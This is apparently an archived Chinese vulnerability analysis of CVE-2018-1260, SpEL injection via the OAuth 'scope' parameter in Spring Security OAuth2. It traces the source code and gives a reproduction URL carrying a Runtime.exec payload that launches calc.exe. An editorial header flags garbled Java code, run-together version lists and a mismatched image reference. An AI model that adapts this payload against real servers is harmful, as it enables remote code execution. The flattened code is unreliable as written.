








## 核对与使用边界

本文已按保存的全文审阅记录进行文字校订；本轮仅静态核对，未运行 PoC、请求目标或逐图验证。

适用条件与版本记录（来源主张，未列为明确更正的部分仍待权威资料核对）：列 OAuth 2.3–2.3.2、2.2–2.2.1、2.1–2.1.1、2.0–2.0.14；scope 未配置白名单且使用默认 Approval Endpoint

代码与实验材料：有 validateScope、模板拼接源码和 Windows calc 实验；若干 Java 代码被压成转义散文

来源证据范围：有 OAuth 官方旧文档与 wanghongfei 示例仓库，原分析署名缺失

- **事实待核（1）**：图片引用串入另一 CVE；依据：OAuth 流程图引用 CVE-2016-4977 的 rId25；图片存在不等于含义正确。该项尚不能从转载本身确定外部事实；下文相应编号、版本或修复说法只作为来源记录，不能据此判定部署受影响或已修复。明确更正另列于本节。

- **来源与引用处置（2）**：认证要求被随意账号描述弱化；依据：流程先登录，结尾却称随意输入 username/password；需说明示例是否自定义认证，不能推广成免认证。保留这部分来源材料并与技术结论分开；其引用或宣传内容不能补足本文漏洞的证据。

- **结论使用边界（3）**：关键源码失去代码结构；依据：WhitelabelApprovalEndpoint 与 createTemplate 块变成含反斜杠引号的连续段落。此项限制直接适用于下文对应结论；现有正文不足以作更宽泛推论，所列方法和原始证据均保留。

- **代码与转录边界（4）**：版本条目粘连；依据：四个分支无分隔，阅读和抽取容易误并。相应原代码作为存在此问题的历史样本保留，不能直接当作可运行、成功复现的 PoC；缺失内容需回原稿核对，不据此补造可执行攻击链。

历史原文标识：下文原技术材料按来源保留；仅本节明确确认的更正替代相应旧说法，标为待核的观察仍不是事实确认。

（CVE-2018-1260）Spring Security Oauth2 远程代码执行
====================================================

一、漏洞简介
------------

二、漏洞影响
------------

Spring Security OAuth 2.3 to 2.3.2Spring Security OAuth 2.2 to 2.2.1Spring Security OAuth 2.1 to 2.1.1Spring Security OAuth 2.0 to 2.0.14

三、复现过程
------------

### 漏洞分析

先简要补充一下关于OAuth2.0的相关知识。SpringSecurityOauth2远程代码执行/media/rId25.png)以上图为例。当用户使用客户端时，客户端要求授权，即图中的AB。接着客户端通过在B中获得的授权向认证服务器申请令牌，即access
token。最后在EF阶段，客户端带着access token向资源服务器请求并获得资源。

在获得access
token之前，客户端需要获得用户的授权。根据标准，有四种授权方式：授权码模式（authorization
code）、简化模式（implicit）、密码模式（resource owner password
credentials）、客户端模式（client
credentials）。在这几种模式中，当客户端将用户导向认证服务器时，都可以带上一个可选的参数`scope`，这个参数用于表示客户端申请的权限的范围。

，根据[官方文档](http://projects.spring.io/spring-security-oauth/docs/oauth2.html)，在spring-security-oauth的默认配置中scope参数默认为空：

    scope: The scope to which the client is limited. If scope is undefined or empty (the default) the client is not limited by scope.

为明白起见，我们在demo中将其清楚写出：

    clients.inMemory()
            .withClient("client")
            .authorizedGrantTypes("authorization_code")
            .scopes();

接着开始正式分析。当我们访问`http://localhost:8080/oauth/authorize`重定向至`http://localhost:8080/login`并完成login后程序流程到达org/springframework/security/oauth2/provider/endpoint/AuthorizationEndpoint.java，这里贴上部分代码：

    @RequestMapping(value = "/oauth/authorize")
    public ModelAndView authorize(Map<String, Object> model, @RequestParam Map<String, String> parameters,
            SessionStatus sessionStatus, Principal principal) {

        // Pull out the authorization request first, using the OAuth2RequestFactory. All further logic should
        // query off of the authorization request instead of referring back to the parameters map. The contents of the
        // parameters map will be stored without change in the AuthorizationRequest object once it is created.
        AuthorizationRequest authorizationRequest = getOAuth2RequestFactory().createAuthorizationRequest(parameters);

        try {
            ...
            // We intentionally only validate the parameters requested by the client (ignoring any data that may have
            // been added to the request by the manager).
            oauth2RequestValidator.validateScope(authorizationRequest, client);
            ...

            // Place auth request into the model so that it is stored in the session
            // for approveOrDeny to use. That way we make sure that auth request comes from the session,
            // so any auth request parameters passed to approveOrDeny will be ignored and retrieved from the session.
            model.put("authorizationRequest", authorizationRequest);

            return getUserApprovalPageResponse(model, authorizationRequest, (Authentication) principal);

        }
        ...

第115行SpringSecurityOauth2远程代码执行/media/rId27.png)在执行完`AuthorizationRequest authorizationRequest = ...`后，`authorizationRequest`代表了要认证的请求，其中包含了众多参数SpringSecurityOauth2远程代码执行/media/rId28.png)

在经过了对一些参数的处理，比如RedirectUri等，之后到达第156行：

    // We intentionally only validate the parameters requested by the client (ignoring any data that may have
    // been added to the request by the manager).
    oauth2RequestValidator.validateScope(authorizationRequest, client);

在这里将对`scope`参数进行验证。跟入`validateScope`到org/springframework/security/oauth2/provider/request/DefaultOAuth2RequestValidator.java:19

    public class DefaultOAuth2RequestValidator implements OAuth2RequestValidator {

        public void validateScope(AuthorizationRequest authorizationRequest, ClientDetails client) throws InvalidScopeException {
            validateScope(authorizationRequest.getScope(), client.getScope());
        }
        ...
    }

继续跟入`validateScope`，至
org/springframework/security/oauth2/provider/request/DefaultOAuth2RequestValidator.java:28

    private void validateScope(Set<String> requestScopes, Set<String> clientScopes) {

        if (clientScopes != null && !clientScopes.isEmpty()) {
            for (String scope : requestScopes) {
                if (!clientScopes.contains(scope)) {
                    throw new InvalidScopeException("Invalid scope: " + scope, clientScopes);
                }
            }
        }
        
        if (requestScopes.isEmpty()) {
            throw new InvalidScopeException("Empty scope (either the client or the user is not allowed the requested scopes)");
        }
    }

首先检查`clientScopes`，这个`clientScopes`即我们在前面configure中配置的`.scopes();`，倘若不为空，则进行白名单检查。举个例子，如果前面配置`.scopes("chybeta");`，则传入`requestScopes`必须为`chybeta`，否则会直接抛出异常`Invalid scope:xxx`。但由于此处查`clientScopes`为空值，则接下来仅仅做了`requestScopes.isEmpty()`的检查并且通过。

在完成了各项检查和配置后，在`authorize`函数的最后执行：

    return getUserApprovalPageResponse(model, authorizationRequest, (Authentication) principal);

回想一下前面OAuth2.0的流程，在客户端请求授权（A），用户登陆认证（B）后，将会进行用户授权（C），这里即开始进行正式的授权阶段。跟入`getUserApprovalPageResponse`
至org/springframework/security/oauth2/provider/endpoint/AuthorizationEndpoint.java:241：SpringSecurityOauth2远程代码执行/media/rId29.png)

生成对应的model和view，之后将会forward到/oauth/confirm\_access。为简单起见，我省略中间过程，直接定位到org/springframework/security/oauth2/provider/endpoint/WhitelabelApprovalEndpoint.java:20

> 归档缺损：下方两个 Java 片段在原归档中已压成行并带有 Markdown 转义，源码、截略号与“跟入”说明混排。保留采集原文，不把它们标为可直接编译的完整源码。

public class WhitelabelApprovalEndpoint {\@RequestMapping(\"/oauth/confirm\_access\")public ModelAndView getAccessConfirmation(Map\<String, Object\> model,
HttpServletRequest request) throws Exception {String template = createTemplate(model, request);if (request.getAttribute(\"\_csrf\") != null) {model.put(\"\_csrf\", request.getAttribute(\"\_csrf\"));}return new ModelAndView(new SpelView(template), model);}\...}跟入createTemplate，第29行：

protected String createTemplate(Map\<String, Object\> model,
HttpServletRequest request) {String template = TEMPLATE;if (model.containsKey(\"scopes\") \|\| request.getAttribute(\"scopes\")
!= null) {template = template.replace(\"%scopes%\", createScopes(model,
request)).replace(\"%denial%\", \"\");}\...return template;}跟入createScopes，第46行：SpringSecurityOauth2远程代码执行/media/rId30.png)

这里获取到了`scopes`，并且通过for循环生成对应的`builder`，其实就是html和一些标签等，最后返回的即`builder.toString()`,其值如下:

    <ul><li>
scope.${T(java.lang.Runtime).getRuntime().exec("calc.exe")}: <input type='radio' name='scope.${T(java.lang.Runtime).getRuntime().exec("calc.exe")}' value='true'>Approve</input> <input type='radio' name='scope.${T(java.lang.Runtime).getRuntime().exec("calc.exe")}' value='false' checked>Deny</input>
</li></ul>

`createScopes`结束后将会把上述`builder.toString()`拼接到`template`中。`createTemplate`结束后，在`getAccessConfirmation`的最后：

    return new ModelAndView(new SpelView(template), model);

根据`template`生成对应的`SpelView`对象，这是其构造函数：SpringSecurityOauth2远程代码执行/media/rId31.png)此后在页面渲染的过程中，将会执行页面中的Spel表达式`${T(java.lang.Runtime).getRuntime().exec("calc.exe")}`从而造成代码执行。

SpringSecurityOauth2远程代码执行/media/rId32.png)

所以综上所述，这个任意代码执行的利用条件实在"苛刻"：

1.  需要`scopes`没有配置白名单，否则直接`Invalid scope:xxx`。不过大部分OAuth都会限制授权的范围，即指定scopes。
2.  使用了默认的Approval
    Endpoint，生成对应的template，在spelview中注入spel表达式。不过可能绝大部分使用者都会重写这部分来满足自己的需求，从而导致spel注入不成功。

### 漏洞复现

利用github上已有的demo：

    git clone https://github.com/wanghongfei/spring-security-oauth2-example.git

确保导入的spring-security-oauth2为受影响版本，以这里为例为2.0.10进入spring-security-oauth2-example，修改
cn/com/sina/alan/oauth/config/OAuthSecurityConfig.java的第67行:

    @Override
    public void configure(ClientDetailsServiceConfigurer clients) throws Exception {
       clients.inMemory()
                .withClient("client")
                .authorizedGrantTypes("authorization_code")
                .scopes();
    }

根据[spring-security-oauth2-example](https://github.com/wanghongfei/spring-security-oauth2-example.git)创建对应的数据库等并修改AlanOAuthApplication中对应的mysql相关配置信息。

访问：

    http://www.0-sec.org:8080/oauth/authorize?client_id=client&response_type=code&redirect_uri=http://www.github.com/chybeta&scope=%24%7BT%28java.lang.Runtime%29.getRuntime%28%29.exec%28%22calc.exe%22%29%7D

会重定向到login页面，随意输入username和password，点击login，触发payload。SpringSecurityOauth2远程代码执行/media/rId35.gif)
